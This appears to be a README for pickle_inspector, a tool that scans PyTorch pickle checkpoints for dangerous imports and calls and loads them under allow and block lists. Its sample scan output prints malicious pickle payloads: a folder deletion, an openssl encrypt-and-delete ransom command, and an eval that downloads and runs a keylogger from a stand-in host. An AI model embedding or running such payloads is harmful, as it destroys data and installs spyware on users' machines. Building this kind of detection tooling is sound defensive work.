 # pickle_inspector 🥒🔬
Check what is in the pickle before eating it.

It works on any type of pickle, but was made with `torch` in mind.

NOTE:
torch == 1.13.0 breaks using custom unpicklers, see https://github.com/pytorch/pytorch/issues/88438
until this is fixed, stick to 1.12.x or older.

## Scanning pickles via command line
**tl;dr** just let me scan my pickles.
```sh
python3 scan_pickle.py --preset stable_diffusion_v1 --in sus.ckpt
```
```
> Scanning file(s): ['sus.ckpt']
> Using white list: ['collections.OrderedDict', 'torch._utils._rebuild_tensor_v2', 'torch.HalfStorage', 'torch.FloatStorage', 'torch.IntStorage', 'torch.LongStorage', 'pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint', 'numpy.core.multiarray.scalar', 'numpy.dtype', '_codecs.encode']
> Reading sus.ckpt
> Found pickle in zip: archive/data.pkl
> Scanning: archive/data.pkl
> found: torch._utils._rebuild_tensor_v2
> found: torch.FloatStorage
> found: collections.OrderedDict
> found: torch.IntStorage
> found: torch.LongStorage
> found: pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint
> found: numpy.core.multiarray.scalar
> found: numpy.dtype
> found: _codecs.encode
> Scan for sus.ckpt PASSED ✅
```
### Script usage
```
usage: Scan pickles [-h] -i INPUT [INPUT ...] [-p {stable_diffusion_v1}] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT [INPUT ...], --in INPUT [INPUT ...]
                        path to a pickle(s) or zip(s) containing pickles
  -p {stable_diffusion_v1}, --preset {stable_diffusion_v1}
                        a whitelist preset to use: stable_diffusion_v1
  -w WHITELIST [WHITELIST ...], --whitelist WHITELIST [WHITELIST ...]
                        whitelist of modules and functions to allow
  -b BLACKLIST [BLACKLIST ...], --blacklist BLACKLIST [BLACKLIST ...]
                        blacklist of modules and functions to block
```
## Inspecting
Inspect without unpickling.
```py
import torch
import pickle_inspector
result = torch.load('sus.pt', pickle_module=pickle_inspector.inspector)
for c in result.imports:
    print(c)
```
notice calls to `shutil.rmtree`, `os.system` or similar
```
> shutil.rmtree
> torch._utils._rebuild_tensor_v2
> collections.OrderedDict
> numpy.core.multiarray.scalar
> os.system
> numpy.dtype
> _codecs.encode
```
so we are taking a closer look at what is being called
```py
for c in result.calls:
    print(c)
```
and it seems like someone tried to delete something and ransom a file
```
> shutil.rmtree(('/very/important/folder'), {})
> collections.OrderedDict((), {})
> torch._utils._rebuild_tensor_v2((None, 0, (1000,), (1,), False, collections.OrderedDict((), {})), {})
...
> torch._utils._rebuild_tensor_v2((None, 0, (), (), False, collections.OrderedDict((), {})), {})
> os.system(('openssl enc -aes-128-ecb -in important_file -out give_money.enc -K 1337B00B135DEADBEEF; rm important_file'), {})
> numpy.dtype(('f8', False, True), {})
> numpy.dtype.__setstate__(((3, '<', None, None, None, -1, -1, 0),), {})
> _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})
> numpy.core.multiarray.scalar((numpy.dtype(('f8', False, True), {}), _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})), {})
```
## Controlled unpickling
Inspect and unpickle using white and blacklists.

```py
import torch
from pickle_inspector import UnpickleConfig, UnpickleControlled, PickleModule
config = UnpickleConfig()
# only allow  modules, classes and funcions in the whitelist
# the rest will be stubbed
config.whitelist = [
        'torch._utils._rebuild_tensor_v2',
        'torch.FloatStorage',
        'torch.IntStorage',
        'torch.LongStorage',
        'numpy.core.multiarray.scalar',
        'numpy.dtype',
        'collections.OrderedDict',
        '_codecs.encode'
]
result = torch.load('model.ckpt', pickle_module = PickleModule(UnpickleControlled, config))
state_dict = result.structure
for c in result.imports:
    print(c)
```
```
> torch._utils._rebuild_tensor_v2
> torch.FloatStorage
...
> __builtin__.eval
> collections.OrderedDict
...
```
```py
for c in results.calls:
    if 'eval' in c:
        print(c)
```
```py
> __builtin__.eval('import os;os.system("wget https://sus.to/keylog;chmod +x keylog;./keylog &")')
```
## Blacklist & Whitelist
The whitelist has priority over the blacklist.

If the blacklist contains items everything will be allowed except items in the blacklist,\
or items in the blacklist and in the whitelist. This is useful using wildcards.

Example: Block everything within `torch` except `torch.FloatStorage`
```py
conf.blacklist = ['torch.*']
conf.whitelist = ['torch.FloatStorage']
```

If the blacklist is empty and the whitelist contains items, \
everything except items in the whitelist will be blocked.

## Safe whitelist for stable diffusion v1
A premade whitelist for stable diffusion v1 is available in this project.

Example: Scan a stable diffusion checkpoint
```py
import torch
from pickle_inspector import UnpickleConfig, PickleModule, UnpickleInspector, importlists
conf = UnpickleConfig(whitelist = importlists.stable_diffusion_v1)
torch.load('sd-v1-4.ckpt', pickle_module=PickleModule(UnpickleInspector, conf))
```

Tested with python 3.9 and torch 1.12.1
